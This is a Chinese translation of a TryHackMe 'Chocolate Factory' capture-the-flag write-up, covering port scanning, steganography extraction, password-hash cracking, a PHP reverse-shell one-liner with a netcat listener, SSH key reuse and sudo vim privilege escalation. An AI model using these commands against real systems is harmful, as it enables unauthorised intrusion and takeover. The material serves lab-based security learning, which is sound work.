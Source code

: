 # TryHackMe:巧克力工厂报道

> 原文：<https://infosecwriteups.com/tryhackme-chocolate-factory-write-up-d430b53f7cb2?source=collection_archive---------1----------------------->

![](img/e8c2bccba800dff43cb007d45465327a.png)

简单级 CTF 挑战

我们启动[机](https://tryhackme.com/room/chocolatefactory)开始黑吧！！！。

连接到您的 OpenVPN 网络并部署机器。

## 任务 2 挑战

让我们从查找开放端口的 Rustscan 开始

```
rustscan -a <machine_ip>
```

![](img/98dde3d3e76705361d132945658b4543.png)

让我们打开端口 80(http)。它看起来像一个登录页面。

![](img/335fc8b01103e54a431ae5bc4e6f455a.png)

在 ftp 服务器中我们可以看到。jpg 图片。

```
ftp <machine_ip>
```

![](img/c95db29026030ceec4be0f87eaa5e553.png)![](img/db04ff6c0bc76e4536469472729cb841.png)

使用 Steghide，我们可以从。jpg 图片。

```
steghide extract -sf <file_name>
```

![](img/0c3c2ff619ddcb583de7dfb473353a5f.png)

。txt 文件看起来像 base64 加密文件

![](img/fcb7b21cb6af5b57e5e6cae9094dfee5.png)

使用 base64 工具，我们可以解密文本。

```
base64 -d b64.txt
```

该文件包含用户名和密码散列。尤其是我们需要查理的密码散列。

![](img/688332f62df68a633ff491da709b47e8.png)

要破解密码散列，让我们使用 Hashcat。我复制了哈希值并将其存储在 hashes.txt 文件中

```
hashcat -a 0 -m 1800 cracked.txt hashes.txt <wordlist_file> -O
```

![](img/c2b3d8261bfbb4d9090412c06ac99781.png)

破解花了很长时间。

![](img/6aa43afdf75650f9aa8916c21c513607.png)

使用我们得到的密码和用户名登录。它内部有一个命令执行块。

![](img/fcd01fa9d8b858e9d18cd4981b7eaaf8.png)

要获得反向 shell，请键入以下命令。

```
php -r '$sock=fsockopen("<your_ip_address>",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

同时要监听，请打开终端并键入以下 Netcat 命令。

```
nc -lvp 4444
```

![](img/ad925411d67adf21cda98459e65a43c9.png)

我们可以看到几个文件。让我感兴趣的是《钥匙 _rev_key》。当我查看文件时，我得到了第一张空白纸的钥匙。希望以后可能有用。

![](img/43be660b2648077f9c8f1c5ab1dc9337.png)

前往 charlie 的文件夹，我们可以看到“user.txt”文件。但是因为我们是 www-data 用户而不是 charlie。

![](img/af8977fa9fb603548366ec79212c894c.png)

我们可以使用 teleport (RSA 私钥)，以 charlie 的身份通过 ssh 登录。

复制传送中的内容并更改权限。

使用下面的 ssh 命令打开终端。

```
chmod 400 teleport
ssh charlie@<machine_ip> -i teleport
```

![](img/5ef19e6333d4e01b7b34c39e56320277.png)

我们得到了用户标志

![](img/49c519f3879d480a18c6da052077149f.png)

现在，让我们将我们的权限提升到 root 用户，以找到根标志。

```
sudo -l
```

![](img/0b8e56ae62bb56f01ad5ec4ad53dd915.png)

使用 vim ( [参考](https://medium.com/@pettyhacks/linux-privilege-escalation-via-vi-36c00fcd4f5e))我们可以得到根。

![](img/514c6a1f48e31856bd944046a92221b1.png)

一旦我们执行了这个命令，我们现在就是根用户了。前往根目录，我们可以找到一个名为 root.py 的 python 文件。

它想要一把钥匙。我输入了我们最初找到的钥匙。

![](img/53d00e30882c5c39624ba1c48e0a5e50.png)

根标志

最后我们还拿到了根旗！！！。

做这个挑战很有趣。希望大家学到新东西:)。

通过 [Linkedin](https://www.linkedin.com/in/vishnuram-r/) 和[我的网站](https://vishnuram1999.github.io/)和我联系。